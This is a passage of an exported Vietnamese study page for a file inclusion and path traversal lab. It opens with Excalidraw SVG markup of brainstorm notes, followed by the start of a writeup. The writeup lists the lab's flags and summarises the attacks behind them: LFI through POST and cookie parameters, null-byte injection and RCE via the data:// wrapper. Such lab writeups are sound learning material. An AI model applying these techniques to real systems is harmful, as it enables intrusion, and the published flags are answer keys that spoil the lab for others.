</g>
<g transform="translate(-23.16,255.64)">
<text x="105.68" y="-32.80" font-family="'DFVN-excalidraw', 'DFVN Excalifont', Virgil, cursive" font-size="20" fill="#c2255c" text-anchor="start"><tspan x="105.68" dy="0">Chốt lại keyword </tspan><tspan x="105.68" dy="25">nhé</tspan></text>
</g>
<g transform="translate(-23.16,255.64)">
<text x="305.96" y="-62.22" font-family="'DFVN-excalidraw', 'DFVN Excalifont', Virgil, cursive" font-size="20" fill="#1e1e1e" text-anchor="start"><tspan x="305.96" dy="0">1-là pathtraversa + file inclusion</tspan><tspan x="305.96" dy="25">2-input đi theo POST</tspan><tspan x="305.96" dy="25">3-có thể tận dụng pathtraversal đọc file mã nguồn ( bước 5)</tspan><tspan x="305.96" dy="25">4-php wrapper???</tspan><tspan x="305.96" dy="25"></tspan></text>
</g>
<g transform="translate(-23.16,255.64)">
<text x="721.16" y="-190.95" font-family="'DFVN-excalidraw', 'DFVN Excalifont', Virgil, cursive" font-size="20" fill="#1e1e1e" text-anchor="start"><tspan x="721.16" dy="0">Tạo HTTP POST </tspan></text>
</g>
<a href="../tools/cách-để-gửi-post-trong-burp" class="excalidraw-node-link" target="_self" title="cách để gửi POST trong burp"><g transform="translate(-23.16,255.64)">
<text x="914.45" y="-195.64" font-family="'DFVN-excalidraw', 'DFVN Excalifont', Virgil, cursive" font-size="20" fill="#1e1e1e" text-anchor="start"><tspan x="914.45" dy="0">📍cách để gửi POST trong burp</tspan></text>
</g></a>
<g transform="translate(-23.16,255.64)">
<path d="M63.39 2693.84 C275.04 2695.95,486.66 2695.57,849.05 2694.41 M63.56 2693.98 C284.74 2692.35,505.32 2692.32,849.72 2693.76 M848.92 2693.52 C850.75 2765.77,851.98 2833.54,847.78 2882.35 M848.71 2694.47 C848.27 2746.17,849.03 2797.36,849.18 2882.87 M849.53 2883.96 C657.63 2882.57,464.86 2883.92,63.65 2882.66 M849.57 2883.28 C582.50 2884.58,315.42 2884.39,63.03 2883.37 M63.61 2884.67 C63.87 2839.92,62.67 2791.91,64.74 2694.89 M62.22 2883.34 C61.69 2841.59,60.76 2801.24,62.77 2692.89" stroke="#1e1e1e" stroke-width="1" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M881.86 2770.74 L880.96 2770.55 L880.40 2769.93 L881.69 2768.68 L883.82 2767.37 L886.68 2766.18 L890.22 2765.11 L894.15 2763.99 L896.17 2763.55 L900.38 2762.61 L904.76 2761.86 L908.91 2761.43 L912.84 2761.05 L917.84 2760.74 L920.76 2760.68 L923.29 2760.49 L925.25 2760.43 L926.71 2760.43 L927.89 2760.36 L927.89 2760.36" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M931.20 2750.48 L930.42 2749.80 L929.86 2749.17 L930.75 2749.67 L931.20 2750.73 L931.54 2752.80 L931.43 2755.11 L930.98 2757.74 L929.86 2760.43 L926.94 2764.61 L924.07 2767.37 L920.42 2769.99 L918.23 2771.30 L913.63 2773.43 L909.08 2774.74 L909.08 2774.74" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<text x="966.70" y="2779.55" font-family="'DFVN-excalidraw', 'DFVN Excalifont', Virgil, cursive" font-size="20" fill="#1e1e1e" text-anchor="start"><tspan x="966.70" dy="0">cái này cần học sau này</tspan></text>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M782.52 -20.17 L781.62 -20.42 L781.62 -20.42" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M552.85 -47.00 L554.03 -47.00 L555.37 -47.00 L557.79 -47.00 L560.43 -47.06 L563.18 -47.06 L566.04 -47.00 L569.07 -46.94 L574.12 -46.75 L578.28 -46.81 L583.00 -46.81 L588.22 -46.81 L594.34 -46.94 L597.42 -46.94 L603.77 -46.81 L610.05 -46.69 L616.06 -46.37 L621.90 -46.06 L626.95 -45.87 L631.89 -45.75 L639.47 -45.94 L644.92 -46.31 L650.64 -47.00 L656.37 -47.75 L661.70 -48.56 L666.53 -49.50 L670.85 -50.44 L674.95 -51.44 L678.77 -52.56 L680.68 -53.19 L684.38 -54.44 L689.89 -56.82 L693.82 -58.69 L698.03 -60.94 L702.18 -63.32 L706.39 -65.76 L710.32 -68.26 L714.14 -70.70 L715.99 -71.89 L720.82 -75.01 L723.91 -77.20 L726.94 -79.39 L729.91 -81.83 L735.08 -86.20 L736.71 -87.89 L740.13 -91.33 L743.44 -94.89 L746.59 -98.34 L749.73 -101.65 L752.43 -104.77 L754.84 -107.65 L757.09 -110.40 L759.22 -113.28 L761.35 -116.41 L763.37 -119.59 L766.52 -124.91 L768.65 -128.91 L770.67 -132.66 L772.47 -136.04 L773.42 -137.79 L775.05 -140.91 L776.57 -143.92 L777.91 -146.85 L779.04 -149.23 L780.10 -151.61 L781.00 -153.80 L782.01 -155.80 L782.91 -157.74 L784.20 -160.55 L785.10 -162.36 L785.94 -164.11 L786.28 -165.05 L787.12 -166.61 L787.51 -167.36 L788.64 -169.80 L789.48 -171.62 L789.87 -172.37 L790.88 -174.68 L791.50 -176.18 L792.12 -177.49 L792.57 -178.62 L793.02 -179.56 L793.41 -180.49 L793.80 -181.31 L794.25 -182.37 L794.53 -183.31 L794.92 -184.06 L795.21 -184.87 L795.21 -184.87" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M778.31 -177.31 L779.26 -177.68 L781.79 -178.75 L783.53 -179.68 L784.43 -180.18 L786.84 -181.93 L788.36 -183.18 L789.65 -184.56 L790.77 -185.87 L791.67 -186.87 L792.40 -187.81 L793.07 -188.56 L793.80 -189.37 L794.31 -190.00 L795.04 -190.62 L795.94 -190.88 L797.11 -190.81 L798.24 -190.12 L799.81 -188.81 L800.65 -187.94 L802.22 -185.56 L803.57 -182.62 L804.41 -179.18 L804.81 -175.37 L804.81 -171.11 L804.36 -166.99 L804.36 -166.99" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M79.48 -104.83 C397.14 -102.67,715.50 -102.99,925.39 -105.25 M79.45 -104.65 C278.13 -103.52,476.21 -103.65,924.65 -104.22 M924.95 -103.63 C924.56 -69.44,923.17 -36.66,926.29 40.47 M925.44 -104.34 C925.45 -53.71,925.67 -0.38,925.25 41.45 M924.01 40.47 C712.44 40.37,499.90 40.33,79.25 40.09 M924.30 40.33 C726.85 42.29,528.37 41.83,79.67 40.92 M77.86 42.25 C77.48 -7.59,77.71 -52.95,80.17 -104.26 M79.96 41.00 C79.53 0.22,79.37 -41.12,79.64 -104.94" stroke="#1e1e1e" stroke-width="1" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M393.69 455.45 L393.63 454.33 L393.10 453.47 L391.62 452.28 L389.72 451.23 L388.72 450.76 L386.29 450.04 L383.50 449.57 L380.60 449.24 L375.97 449.38 L372.83 449.77 L369.99 450.50 L367.26 451.42 L364.83 452.35 L363.71 452.87 L361.75 454.20 L360.21 455.71 L359.09 457.30 L358.20 458.95 L357.96 460.33 L357.96 461.72 L358.91 464.43 L360.21 466.47 L360.98 467.40 L362.88 469.31 L365.37 470.96 L368.33 472.67 L371.41 473.93 L374.61 474.85 L377.87 475.45 L381.19 475.84 L384.57 475.91 L388.00 475.84 L391.26 475.51 L394.29 475.18 L397.25 474.72 L399.92 474.19 L402.40 473.60 L404.72 473.07 L406.85 472.41 L407.92 472.08 L409.52 471.36 L410.82 470.76 L411.89 470.10 L412.66 469.44 L413.37 468.85 L414.14 467.92 L414.61 467.00 L414.43 465.94 L413.37 464.16 L411.59 462.12 L410.29 461.13 L407.26 459.01 L403.53 457.03 L399.32 455.32 L392.75 453.20 L388.95 452.35 L387.35 452.08 L387.35 452.08" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M391.74 2957.14 L391.65 2957.95 L391.06 2958.43 L390.38 2959.03 L389.85 2959.46 L389.27 2960.11 L388.83 2960.65 L388.44 2961.25 L387.95 2961.90 L387.56 2962.66 L387.18 2963.52 L386.84 2964.39 L386.25 2966.39 L385.96 2967.63 L385.67 2968.72 L385.48 2969.74 L385.28 2970.61 L385.18 2971.85 L385.09 2972.99 L385.18 2974.02 L385.43 2975.05 L385.96 2976.89 L386.64 2978.67 L387.52 2980.19 L388.49 2981.59 L390.04 2983.59 L391.16 2984.84 L392.47 2985.98 L393.83 2987.00 L395.29 2988.03 L396.84 2989.06 L398.54 2989.82 L399.32 2990.25 L401.02 2991.01 L402.67 2991.71 L404.42 2992.25 L406.37 2992.69 L409.48 2993.28 L411.66 2993.61 L413.85 2993.88 L416.03 2994.04 L418.22 2994.26 L420.36 2994.47 L422.45 2994.64 L424.39 2994.85 L426.38 2995.07 L427.26 2995.12 L428.76 2995.23 L430.22 2995.39 L433.28 2995.72 L435.22 2995.88 L437.22 2996.04 L438.24 2996.15 L440.08 2996.20 L442.76 2996.26 L444.89 2996.26 L446.98 2996.26 L449.22 2996.26 L451.26 2996.20 L453.25 2996.20 L456.65 2996.15 L458.93 2996.04 L461.22 2995.93 L463.45 2995.88 L464.62 2995.83 L466.85 2995.72 L469.09 2995.56 L471.18 2995.39 L473.27 2995.23 L475.26 2995.07 L476.28 2994.96 L477.88 2994.85 L480.84 2994.74 L484.10 2994.47 L486.38 2994.26 L488.67 2994.15 L491.10 2993.93 L493.48 2993.82 L495.90 2993.61 L498.48 2993.39 L499.69 2993.34 L502.32 2993.07 L504.94 2992.90 L507.47 2992.69 L510.09 2992.52 L513.98 2992.15 L516.55 2991.93 L519.03 2991.71 L521.46 2991.39 L523.84 2991.06 L526.27 2990.68 L528.70 2990.36 L531.13 2989.87 L533.51 2989.49 L535.89 2989.11 L538.17 2988.74 L539.34 2988.52 L542.54 2987.87 L544.63 2987.49 L546.53 2987.00 L548.57 2986.57 L550.37 2986.08 L552.21 2985.65 L553.91 2985.16 L555.66 2984.73 L557.31 2984.14 L558.67 2983.70 L559.69 2983.27 L560.71 2982.94 L561.49 2982.62 L562.17 2982.30 L563.19 2981.92 L564.02 2981.48 L564.89 2981.05 L565.72 2980.67 L566.50 2980.24 L567.95 2979.16 L568.92 2978.45 L569.75 2977.75 L570.48 2977.16 L571.16 2976.56 L572.67 2975.37 L573.49 2974.67 L574.12 2974.18 L574.66 2973.69 L575.34 2973.26 L575.92 2972.77 L576.41 2972.34 L577.04 2971.85 L577.62 2971.37 L578.25 2970.77 L578.74 2970.23 L579.18 2969.64 L579.71 2968.99 L580.10 2968.34 L580.49 2967.63 L580.73 2966.82 L580.88 2965.96 L580.83 2964.82 L580.54 2964.06 L579.56 2962.06 L578.45 2960.65 L577.04 2959.41 L575.53 2958.16 L573.83 2957.03 L571.94 2956.05 L570.04 2955.13 L567.95 2954.27 L564.70 2953.02 L562.32 2952.21 L559.84 2951.45 L556.97 2950.59 L554.11 2949.83 L551.05 2949.07 L547.94 2948.37 L546.33 2948.04 L543.18 2947.39 L539.97 2946.75 L536.71 2946.15 L531.95 2945.23 L528.94 2944.69 L526.07 2944.20 L523.35 2943.82 L520.78 2943.34 L518.25 2942.85 L515.87 2942.31 L513.49 2941.82 L511.11 2941.39 L508.78 2941.01 L506.35 2940.58 L503.92 2940.25 L502.71 2940.15 L499.11 2939.82 L496.68 2939.60 L494.20 2939.44 L491.78 2939.23 L489.44 2939.06 L487.11 2938.85 L484.73 2938.58 L482.35 2938.31 L479.92 2938.14 L477.49 2937.87 L475.06 2937.71 L472.78 2937.55 L469.48 2937.33 L467.24 2937.28 L465.01 2937.28 L464.03 2937.22 L462.33 2937.28 L460.73 2937.28 L458.54 2937.28 L456.46 2937.28 L455.48 2937.28 L453.78 2937.33 L451.16 2937.39 L448.00 2937.39 L445.96 2937.49 L443.82 2937.55 L441.78 2937.60 L440.81 2937.66 L437.85 2937.87 L435.76 2937.98 L433.77 2938.25 L432.75 2938.36 L430.80 2938.74 L428.86 2939.06 L426.87 2939.44 L425.07 2939.87 L423.42 2940.25 L420.99 2940.96 L419.63 2941.34 L418.46 2941.71 L417.44 2942.04 L415.79 2942.63 L414.14 2943.28 L413.36 2943.55 L411.22 2944.47 L410.06 2944.96 L408.75 2945.56 L407.48 2946.10 L406.46 2946.53 L405.54 2947.02 L404.67 2947.39 L403.89 2947.72 L403.21 2948.04 L402.14 2948.64 L400.63 2949.34 L399.91 2949.67 L398.74 2950.26 L397.72 2950.80 L396.12 2951.72 L394.76 2952.43 L393.74 2953.02 L392.81 2953.46 L392.08 2953.83 L391.45 2954.27 L390.82 2954.65 L390.19 2955.08 L389.61 2955.57 L389.02 2956.00 L388.63 2956.81 L389.41 2959.35 L389.41 2959.35" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M609.30 2967.69 L609.73 2968.34 L610.37 2968.72 L611.87 2969.20 L613.77 2969.74 L615.95 2970.18 L619.60 2970.77 L622.22 2971.10 L623.58 2971.20 L626.25 2971.47 L628.97 2971.75 L631.74 2972.02 L634.56 2972.18 L637.38 2972.34 L640.15 2972.61 L642.92 2972.77 L645.59 2972.94 L648.41 2973.04 L652.58 2973.31 L655.45 2973.37 L658.46 2973.42 L661.48 2973.42 L664.54 2973.48 L667.65 2973.58 L669.20 2973.58 L672.36 2973.48 L675.56 2973.48 L678.63 2973.42 L681.78 2973.37 L684.75 2973.26 L689.26 2973.10 L692.28 2972.94 L695.19 2972.77 L698.16 2972.50 L701.02 2972.34 L703.79 2972.12 L706.56 2971.80 L709.23 2971.53 L711.86 2971.20 L714.53 2970.93 L715.79 2970.83 L718.41 2970.56 L722.20 2970.18 L724.73 2969.96 L727.21 2969.80 L729.69 2969.58 L732.16 2969.47 L734.54 2969.26 L736.88 2969.04 L739.21 2968.93 L741.59 2968.72 L743.97 2968.55 L746.54 2968.28 L749.07 2968.07 L751.69 2967.85 L755.63 2967.47 L756.94 2967.36 L759.52 2967.15 L762.14 2966.93 L764.71 2966.71 L767.29 2966.50 L769.86 2966.28 L772.34 2966.06 L774.96 2965.85 L777.64 2965.69 L780.31 2965.42 L784.34 2965.15 L786.96 2964.93 L789.64 2964.77 L792.26 2964.71 L794.74 2964.60 L797.07 2964.55 L798.24 2964.50 L800.52 2964.50 L802.75 2964.50 L804.94 2964.50 L807.03 2964.50 L808.78 2964.44 L811.65 2964.50 L813.35 2964.50 L814.46 2964.55 L816.26 2964.55 L817.91 2964.55 L820.63 2964.71 L822.33 2964.77 L823.79 2964.82 L825.15 2964.87 L826.32 2964.87 L828.02 2965.04 L829.72 2965.09 L832.34 2965.20 L833.41 2965.25 L834.58 2965.42 L835.50 2965.47 L836.52 2965.52 L837.39 2965.69 L838.37 2965.52 L838.37 2965.52" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M839.19 2956.92 L839.68 2956.38 L840.70 2956.54 L841.62 2956.92 L842.35 2957.41 L842.98 2957.95 L843.90 2959.19 L844.49 2960.33 L844.83 2961.36 L844.88 2962.33 L844.24 2964.50 L843.71 2965.20 L842.35 2966.66 L840.36 2968.01 L837.88 2969.31 L835.69 2970.18 L833.70 2970.72 L833.70 2970.72" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<text x="859.43" y="2986.59" font-family="'DFVN-excalidraw', 'DFVN Excalifont', Virgil, cursive" font-size="16" fill="#1e1e1e" text-anchor="start"><tspan x="859.43" dy="0">thằng này nó cho include(...) 1 đường link ngoài</tspan></text>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M288.21 2973.47 C315.96 2972.66,345.14 2972.29,387.89 2972.01 M287.15 2973.17 C313.89 2974.44,341.68 2974.17,386.35 2973.10 M387.81 2975.15 C386.06 2982.53,386.46 2995.08,384.47 3026.47 M385.22 2972.96 C386.72 2988.22,385.13 3002.58,386.76 3026.78 M386.34 3026.82 C357.56 3023.89,328.78 3023.80,285.83 3025.28 M386.87 3026.53 C363.47 3025.62,339.42 3024.55,287.10 3026.48 M287.82 3025.19 C286.65 3011.81,285.65 2998.20,287.37 2974.36 M285.90 3026.06 C286.40 3013.24,285.99 2999.16,286.47 2973.58" stroke="#c2255c" stroke-width="1" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<text x="894.53" y="3054.14" font-family="'DFVN-excalidraw', 'DFVN Excalifont', Virgil, cursive" font-size="16" fill="#1e1e1e" text-anchor="start"><tspan x="894.53" dy="0">phpwraper là gì</tspan></text>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M463.86 3002.48 L463.16 3002.01 L462.52 3001.47 L463.32 3002.01 L464.34 3002.25 L465.46 3002.37 L468.39 3002.54 L470.63 3002.54 L473.08 3002.48 L475.59 3002.37 L477.99 3002.25 L480.60 3002.13 L483.00 3002.07 L486.74 3001.89 L489.03 3001.89 L491.43 3002.01 L493.78 3002.07 L494.79 3002.13 L497.14 3002.25 L498.31 3002.37 L501.56 3002.48 L503.91 3002.72 L506.04 3002.90 L507.11 3003.07 L511.06 3003.49 L513.19 3003.61 L515.00 3003.79 L516.98 3003.85 L519.27 3003.85 L521.51 3003.85 L523.91 3003.79 L525.88 3003.73 L527.59 3003.73 L529.14 3003.73 L530.47 3003.73 L531.70 3003.79 L535.38 3004.08 L537.08 3004.14 L538.52 3004.26 L539.80 3004.26 L541.67 3004.50 L542.68 3004.56 L544.44 3004.62 L546.04 3004.68 L547.48 3004.68 L548.76 3004.68 L549.88 3004.68 L551.06 3004.68 L553.99 3004.62 L556.28 3004.50 L558.58 3004.26 L560.82 3004.08 L562.90 3003.85 L565.03 3003.55 L567.11 3003.26 L568.82 3003.13 L570.47 3003.02 L571.91 3002.90 L574.04 3002.78 L575.91 3002.72 L577.51 3002.72 L578.95 3002.72 L580.23 3002.60 L581.46 3002.60 L582.52 3002.54 L584.82 3002.48 L586.63 3002.42 L588.12 3002.25 L589.46 3002.19 L590.63 3002.13 L591.70 3002.07 L593.14 3001.89 L595.59 3001.77 L597.46 3001.65 L599.06 3001.47 L600.50 3001.41 L601.88 3001.36 L604.39 3001.18 L605.40 3001.12 L607.16 3001.00 L608.76 3001.00 L610.10 3000.94 L612.50 3000.76 L613.99 3000.76 L615.00 3000.70 L617.14 3000.64 L619.38 3000.52 L620.39 3000.46 L622.26 3000.40 L624.39 3000.29 L626.26 3000.11 L628.34 2999.99 L631.27 2999.75 L632.28 2999.69 L633.99 2999.57 L635.64 2999.45 L637.03 2999.39 L638.36 2999.39 L641.40 2999.39 L642.47 2999.33 L644.34 2999.27 L645.88 2999.27 L647.32 2999.22 L648.71 2999.22 L649.83 2999.22 L651.70 2999.22 L653.62 2999.10 L655.27 2999.10 L656.71 2999.04 L658.10 2999.04 L661.08 2998.98 L663.38 2998.86 L665.40 2998.68 L666.52 2998.56 L669.67 2998.38 L671.64 2998.32 L673.30 2998.32 L674.79 2998.32 L676.12 2998.32 L677.99 2998.50 L680.39 2998.56 L682.74 2998.62 L685.03 2998.68 L687.32 2998.86 L689.67 2998.92 L691.91 2998.92 L693.99 2998.98 L695.70 2998.98 L697.24 2998.98 L698.58 2998.98 L701.67 2998.86 L704.02 2998.74 L705.08 2998.74 L707.54 2998.68 L709.78 2998.62 L712.12 2998.62 L714.42 2998.56 L716.60 2998.62 L717.67 2998.62 L719.59 2998.62 L721.24 2998.62 L724.23 2998.56 L726.10 2998.56 L729.24 2998.62 L731.11 2998.68 L732.76 2998.68 L734.74 2998.74 L735.86 2998.86 L736.87 2998.92 L738.68 2999.04 L740.07 2999.22 L741.40 2999.27 L742.47 2999.33 L743.48 2999.45 L744.82 2999.57 L746.04 2999.69 L747.27 2999.75 L748.55 2999.81 L749.83 2999.81 L752.07 2999.93 L753.14 2999.93 L755.00 2999.93 L756.60 2999.93 L757.94 2999.93 L759.16 2999.81 L760.28 2999.81 L761.83 2999.81 L763.11 2999.81 L764.18 2999.75 L765.46 2999.75 L766.63 2999.81 L767.75 2999.93 L768.76 2999.99 L769.94 3000.05 L771.00 3000.11 L772.07 3000.17 L773.30 3000.17 L774.63 3000.29 L775.91 3000.29 L778.52 3000.29 L782.52 3000.29 L785.19 3000.29 L787.70 3000.29 L790.15 3000.35 L792.34 3000.40 L794.20 3000.46 L795.86 3000.46 L797.24 3000.52 L798.47 3000.64 L799.54 3000.64 L800.87 3000.70 L802.10 3000.76 L803.27 3000.76 L804.44 3000.82 L805.67 3000.94 L806.74 3000.94 L807.86 3001.00 L809.14 3001.00 L809.14 3001.00" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M914.84 3074.30 L914.79 3073.11 L914.79 3072.04 L914.84 3071.03 L914.95 3070.08 L914.74 3071.15 L914.63 3072.40 L914.42 3074.95 L914.20 3077.63 L913.99 3080.36 L913.88 3084.45 L913.94 3087.25 L913.88 3089.92 L913.94 3092.42 L913.94 3093.49 L914.10 3095.27 L914.15 3096.81 L914.42 3097.94 L914.63 3098.95 L914.95 3099.72 L915.48 3100.56 L917.35 3101.51 L918.95 3101.86 L920.66 3101.92 L922.26 3101.92 L924.66 3101.92 L925.99 3101.86 L928.55 3101.80 L931.00 3101.86 L933.30 3101.92 L935.59 3102.16 L937.72 3102.45 L939.80 3102.75 L940.66 3102.93 L943.59 3103.52 L944.71 3103.76 L945.62 3103.88 L946.47 3104.12 L947.64 3104.30 L948.50 3104.54 L949.40 3104.65 L950.36 3104.83 L950.36 3104.83" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M950.84 3097.35 L950.63 3096.27 L950.47 3095.32 L951.38 3095.57 L952.66 3096.93 L953.08 3097.58 L953.78 3098.71 L954.36 3099.72 L954.74 3100.67 L954.95 3101.51 L954.84 3102.75 L954.20 3104.12 L952.92 3105.96 L950.90 3107.80 L948.28 3109.47 L945.14 3110.77 L941.94 3111.78 L939.32 3112.13 L939.32 3112.13" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M856.82 3033.67 L855.70 3033.67 L854.84 3033.85 L856.92 3033.49 L859.00 3032.95 L861.30 3032.54 L863.80 3031.94 L866.52 3031.41 L869.24 3031.00 L872.07 3030.52 L873.51 3030.34 L876.23 3029.87 L878.95 3029.45 L881.72 3029.10 L885.88 3028.56 L888.60 3028.14 L891.32 3027.85 L894.10 3027.49 L896.71 3027.13 L898.15 3027.07 L900.82 3026.72 L903.59 3026.42 L906.42 3026.07 L909.19 3025.77 L911.91 3025.41 L914.42 3025.12 L917.94 3024.76 L918.95 3024.64 L920.76 3024.40 L922.10 3024.28 L923.27 3024.05 L924.44 3023.93 L925.62 3023.75 L926.68 3023.63 L927.70 3023.51 L928.71 3023.33 L929.72 3023.27 L930.63 3023.10 L931.64 3023.04 L932.66 3022.98 L933.40 3023.27 L933.67 3024.22 L933.72 3025.29 L933.72 3026.54 L933.72 3027.61 L933.67 3028.80 L933.56 3029.93 L933.51 3031.17 L933.35 3032.30 L933.19 3033.37 L933.08 3034.38 L932.98 3035.57 L932.87 3036.52 L932.76 3037.59 L932.66 3038.83 L932.66 3038.83" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M926.52 3037.59 L926.31 3036.76 L926.10 3035.87 L925.99 3034.98 L926.31 3035.69 L926.74 3036.46 L927.22 3037.23 L927.96 3038.36 L928.39 3039.01 L929.19 3040.08 L929.99 3040.98 L930.63 3041.75 L931.22 3042.40 L932.02 3043.11 L932.55 3043.76 L933.30 3044.36 L934.15 3044.77 L935.27 3044.77 L937.14 3044.12 L938.79 3043.17 L940.23 3042.10 L941.62 3040.80 L942.36 3040.08 L944.39 3037.53 L945.78 3035.51 L945.78 3035.51" stroke="#1e1e1e" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<text x="977.16" y="3100.04" font-family="'DFVN-excalidraw', 'DFVN Excalifont', Virgil, cursive" font-size="16" fill="#1e1e1e" text-anchor="start"><tspan x="977.16" dy="0">chắc nó là một cái gọi là file</tspan><tspan x="977.16" dy="20">php truyền dưới dạng text</tspan></text>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M922.20 70.82 L926.63 71.71 L927.96 72.36 L930.90 74.14 L934.31 76.88 L937.72 80.08 L941.51 84.54 L943.38 86.97 L948.76 95.05 L952.02 101.11 L954.95 107.29 L957.94 115.13 L960.55 122.44 L963.32 130.63 L965.83 138.06 L967.43 142.63 L969.83 150.18 L972.55 158.97 L975.16 167.34 L978.31 178.69 L980.18 186.05 L981.83 193.60 L983.16 201.26 L984.28 208.86 L984.71 212.61 L985.24 219.44 L985.67 226.03 L985.83 232.57 L985.78 239.22 L985.24 246.35 L984.50 253.59 L983.38 260.72 L981.19 271.35 L980.23 274.86 L978.36 281.81 L976.44 288.52 L974.42 295.06 L972.34 301.41 L970.15 307.53 L967.86 313.47 L965.62 318.93 L963.38 324.22 L962.31 326.66 L958.79 334.26 L956.44 339.07 L954.15 343.71 L951.86 348.34 L949.62 352.73 L947.64 356.83 L945.78 360.93 L944.82 362.89 L942.84 367.05 L940.87 371.15 L939.11 374.83 L937.46 378.28 L935.86 381.54 L933.46 386.47 L931.70 389.74 L930.84 391.23 L929.08 394.31 L927.11 397.28 L925.24 400.20 L923.48 402.99 L921.67 405.54 L919.96 408.04 L918.31 410.35 L917.56 411.42 L915.43 414.33 L914.10 416.29 L912.76 418.02 L911.38 419.74 L909.99 421.40 L908.55 422.95 L907.22 424.49 L906.47 425.26 L905.03 426.63 L903.70 427.88 L902.20 429.12 L900.66 430.25 L899.00 431.32 L896.60 432.93 L894.79 433.99 L893.94 434.47 L892.28 435.48 L890.58 436.49 L888.98 437.44 L887.48 438.21 L886.31 438.87 L885.40 439.34 L884.71 439.76 L883.80 440.23 L883.06 440.71 L882.26 441.18 L881.62 441.60 L880.66 441.95 L879.43 442.01 L878.31 442.01 L877.14 441.95 L875.86 441.90 L874.74 441.95 L873.67 442.07 L872.66 442.25 L872.66 442.25" stroke="#000000" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
<g transform="translate(-23.16,255.64)">
<path d="M877.30 423.96 L876.71 424.85 L876.02 425.56 L874.74 426.93 L873.51 428.17 L872.92 428.89 L871.70 430.13 L870.58 431.32 L869.99 431.86 L869.14 432.81 L867.86 434.29 L867.27 435.00 L866.84 435.84 L867.22 436.67 L869.40 438.27 L871.38 439.34 L873.30 440.59 L875.43 441.84 L877.51 442.96 L879.59 444.03 L881.67 444.87 L883.75 445.58 L885.78 446.11 L887.43 446.17 L887.43 446.17" stroke="#000000" stroke-width="0.5" fill="none" stroke-linecap="round" stroke-linejoin="round"/>
</g>
</svg>
    </div>
  </div>
</div>


---

## 📖 Nội dung chi tiết bài viết (Writeup)

<div id="doc-1dcd936a9289f092a0a33e936aa45213a9ce2d11" class="notion-callout-card">

# 📝 BÁO CÁO KHAI THÁC & RECON BÀI LAB FILE INCLUSION / PATH TRAVERSAL

**Target:** `http://10.49.153.49/`  
**Ngày thực hiện:** 29/08/2026  
**Mục tiêu:** Recon hạ tầng, phân tích tư duy khai thác, lấy tất cả Flag và chiếm quyền điều khiển (RCE) bài lab.

---

## 🎯 1. BẢNG KẾT QUẢ SOLVE LAB (FINAL RESULTS)

| STT | Yêu cầu / Challenge | Phương pháp Khai thác | Kết quả / Flag |
| :---: | :--- | :--- | :--- |
| **1** | **Flag 1** (`/etc/flag1`) | Direct POST LFI via `file` parameter | `F1x3d-iNpu7-f0rrn` |
| **2** | **Flag 2** (`/etc/flag2`) | Cookie-based LFI + Null Byte Injection (`%00`) | `c00k13_i5_yuMmy1` |
| **3** | **Flag 3** (`/etc/flag3`) | HTTP Method Switching (GET $\rightarrow$ POST) + Null Byte (`%00`) | `P0st_1s_w0rk1in9` |
| **4** | **RCE** (`/playground.php`) | Remote File Inclusion via `data://` wrapper | `lfi-vm-thm-f8c5b1a78692` |

---

## 💡 2. CHUỖI TƯ DUY VÀ PHƯƠNG PHÁP LUẬN (MINDSET & LOGICAL FLOW)



### 🧠 Các điểm tư duy cốt lõi:

1. **Tư duy "Input Vector Matrix" (Không chỉ phụ thuộc giao diện Web):**
   - Giao diện HTML chỉ là lớp hiển thị ở phía Client. Các thông số gửi tới Server có thể nằm ở `GET`, `POST Body`, hoặc `HTTP Header (Cookie)`.
   - Tool như `curl` cho phép can thiệp trực tiếp vào giao thức HTTP mà không bị giới hạn bởi nút bấm hay `<form>` trên browser.

2. **Fingerprinting Runtime môi trường để chọn kỹ thuật bypass phù hợp:**
   - Khi quan sát lỗi `Warning: include(...)` tiết lộ môi trường đang chạy **PHP 5.2**, tư duy lập tức hướng tới lỗ hổng **Null Byte Injection (`%00`)**.
